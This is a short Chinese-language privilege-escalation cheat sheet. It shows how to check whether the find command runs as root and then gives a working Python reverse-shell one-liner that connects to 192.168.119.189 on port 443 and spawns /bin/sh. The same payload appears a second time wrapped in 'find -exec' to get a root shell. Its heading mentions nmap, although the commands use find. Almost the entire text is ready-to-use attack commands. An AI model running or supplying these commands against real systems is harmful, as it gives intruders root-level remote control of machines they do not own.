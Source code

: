 # 确认 nmap 有 root 执行权限
执行命令
```
/usr/bin/find /tmp -exec whoami \;
```
确认 find 命令是否是 root 权限执行.

# 反弹 shell
1. 如果目标机上有 python 环境，可以使用 python 命令反弹 shell：
```
#反弹一个sh类型的shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
结合 find :
```
/usr/bin/find /tmp -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \; 

```
